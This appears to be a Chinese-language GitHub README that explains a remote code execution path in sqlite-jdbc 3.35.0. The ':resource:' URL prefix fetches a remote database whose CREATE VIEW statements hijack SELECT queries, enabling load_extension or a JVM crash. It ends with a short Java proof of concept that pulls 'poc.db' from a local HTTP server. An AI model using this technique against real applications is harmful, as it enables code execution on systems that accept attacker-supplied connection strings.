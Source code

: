 ## 原理

在sqlite与数据库进行连接的时候，会调用`org.sqlite.SQLiteConnection#open`方法（版本不同，类也不同）

![image-20220808101754695](README/image-20220808101754695.png)

如果连接的url，是以`:resource:`开头的，之后就会调用`extractResource`方法，并且会将其分隔开来，之后使用URL封装，跟进

![image-20220808102556984](README/image-20220808102556984.png)

之后会读取远程的数据

参考“SELECT code_execution FROM * USING SQLite;”，我们可以利用“CREATE VIEW”将不可控的SELECT语句转换为可控。

如果我们可以控制 SELECT 语句，我们可以使用 SELECT load_extension('/tmp/test.so') 来加载 dll/so 并执行恶意代码，但在现实世界中，目标系统上存在可控文件并不容易，并且load_extension 默认设置为关闭。

除了常见的漏洞之外，我们还可以使用 SQLite 中的内存损坏（例如“Magellan”）来导致 JVM 崩溃。

## 依赖

```xml
<dependency>
    <groupId>org.xerial</groupId>
    <artifactId>sqlite-jdbc</artifactId>
    <version>3.35.0</version>
</dependency>
```

## POC

### 创建database控制Select语句

![image-20220808103351518](README/image-20220808103351518.png)

### 利用

```java
Class.forName("org.sqlite.JDBC");
Connection connection = DriverManager.getConnection("jdbc:sqlite::resource:http://127.0.0.1:8888/poc.db");
```

